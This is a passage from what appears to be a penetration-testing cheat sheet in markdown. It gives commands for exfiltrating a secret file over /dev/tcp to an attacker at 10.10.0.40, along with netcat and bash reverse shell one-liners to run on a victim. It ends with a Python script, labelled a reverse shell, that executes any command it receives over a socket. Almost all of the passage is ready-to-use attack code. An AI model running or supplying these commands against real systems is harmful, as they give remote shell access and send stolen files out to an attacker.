 	$ nc -lvp 1111 > devtcpfile.txt

On the sending box:

	$ cat secret.txt > /dev/tcp/10.10.0.40/1111

This method is useful for a host that does not have NETCAT available.


# REVERSE SHELLS

## REVERSE SHELL USING NETCAT
First listen for the shell on your device.

	$ nc -lvp 9999

On Victim using -c :

	$ nc -c /bin/bash 10.10.0.40 9999

On Victim using -e :

	$ nc -e /bin/bash 10.10.0.40 9999

## REVERSE SHELL USING /DEV/TCP
First listen for the shell on your device.

	$ nc -lvp 9999

On Victim:

	$ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1

## REVERSE SHELL PYTHON3

```
#!/usr/bin/python3
import socket
import subprocess
PORT = 1234        # Choose an unused port
print ("Waiting for Remote connections on port:", PORT, "\n")
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('', PORT))
server.listen()
while True:
    conn, addr = server.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024).decode()
            if not data:
                break
            proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output, err = proc.communicate()
            response = output.decode() + err.decode()
            conn.sendall(response.encode())
server.close()
 ```
 